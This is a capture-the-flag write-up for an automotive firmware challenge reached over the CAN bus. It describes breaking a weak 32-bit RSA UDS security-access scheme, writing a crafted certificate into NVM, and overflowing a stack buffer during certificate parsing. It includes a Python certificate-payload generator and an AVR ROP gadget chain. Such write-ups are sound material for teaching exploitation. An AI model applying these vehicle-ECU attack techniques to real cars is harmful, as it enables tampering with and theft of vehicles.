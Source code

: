 ## Climate Controller Catastrophe  (750)

### Description

Catting cars is a major issue these days. It's impossible to sell your stolen car as a whole, so you sell it in parts. Dashboard computers are popular since they break quite often ;-).

Unfortunately, the dashboard computer is paired with the main computer. So, simply exchanging it will not do the trick. In fact, without the handshake to the main computer it will not operate the climate control buttons.

Of course just pairing the dashboard computer isn't cool enough, try to smash the stack instead! We suspect the device isn't using the serial interface for its pairing algorithm.

In addition to the attached challenge and reversing binaries, you're provided a special "challenge" which you can flash to wipe the EEPROM of your dashboard computer.

### Write-up

Challenge with maximum points, in some way it wasn't too hard, just amount of code was greater then previous challenges.

This time we have firmware with CAN controllers which is communicated by SPI bus with MCU, for better understanding SPI intercommunication we can use this repository of similar [CAN library](https://github.com/coryjfowler/MCP_CAN_lib), unfortunately  I wasn't able to find exact CAN lib in open source, looks like developers used own library.

For communication by CAN bus we used Arduino Uno, CAN shield with mcp2515 chip and [CAN bus lib](https://github.com/Seeed-Studio/CAN_BUS_Shield).
Small Arduino sketch was forwarding messages between CAN and Serial interface and python script responsible for processing multi CAN packets.


Among firmware modules you can identify SHA256 algo, HMAC-SHA256, EC routine, but you don't need to look deep inside of all mentioned above. As I discovered a little bit lately firmware handlers implements standard [UDS](https://en.wikipedia.org/wiki/Unified_Diagnostic_Services) service, also nice cheatsheet available [here](https://automotive.softing.com/fileadmin/sof-files/pdf/de/ae/poster/UDS_Faltposter_softing2016.pdf). For transmitting data larger than 8 byte, OBD2 and UDS utilize additional protocol, which is well described by links abouve.

Current firmware is using 3 UDS services:

 - 0x27 Security Access - challenge/response authentication mechanism which you need to pass before accessing other services. Current implementation is using RSA scheme with weak key length (32 bits), 31337 public exponent and 2777704703 module, which can be easily factorized by any online tool, using primes we calculate private exponent 690033473. During authentication we receive challenge, encrypt it using private exponent and send back.

 - 0x31 Routine Control - service command in case of receiving "014301" value resets stored shared secret to all 0xFF values.

 - 0x3d Write Memory By Address - service command, which allows overwrite range of address in NVM memory, where EC certificate is located (in case of something goes wrong, challenge contains additional firmware for wiping NVM memory, it will be useful for "unbricking" your board).

Next let's look startup routine, after printing "Initializing..." firmware initialize shared secret (HMAC key), if it set to 0xFF additional parsing of stored EC certificate is done. During parsing (function at 0x6297) some size checks are missing which allows us to overflow stack buffer and overwrite return pointer, all we need to do is make special certificate, store it to NVM and reset the board.

```python
def gen_cert(rop_payload):
    cert_name="1"
    cert_name="\x80"+chr(len(cert_name))+cert_name
    curve_name="\x00"*(108)+rop_payload
    curve_name="\x81"+chr(len(curve_name))+curve_name
    magic="3"
    magic="\x82"+chr(len(magic))+magic
    key="4"*0x31
    key="\x83"+chr(len(key))+key
    sig="5"*0x20
    sig="\x84"+chr(len(sig))+sig
    cert=cert_name+curve_name+magic+key+sig
    cert="\x30"+chr(len(cert))+cert
    return cert
```

Before printing the flag there is additional masking which we need to turn off, for this purpose we can use such rop gadgets:

    ROM:4C68    ser     r24
    ROM:4C69    pop     r0
    ROM:4C6A    pop     r29
    ROM:4C6B    pop     r28
    ROM:4C6C    ret

    ROM:8BB2    sts     flag_mask, r24
    ROM:8BB4    pop     r0
    ROM:8BB5    pop     r29
    ROM:8BB6    pop     r28
    ROM:8BB7    ret

    ROM:925D    pop     r17     #set 0x7212 - print_serial()
    ROM:925E    pop     r16
    ROM:925F    ret

    ROM:9259    mov     r24, r17 # pass 0x7212 to flag_print()
    ROM:925A    mov     r25, r16
    ROM:925B    pop     r29
    ROM:925C    pop     r28
    ROM:925D    pop     r17
    ROM:925E    pop     r16
    ROM:925F    ret

    ROM:8BB8    print_flag:
    ROM:8BB8    push    r28
    ...
    ROM:8BF0    ret

NOTE: Return pointers on XMEGA is stored as 3 bytes in Big Endian.

Full script can be found among files in github repository.
If everything is correct you will see your flag after "Initializing" message:

![climat](images/climat1.png)
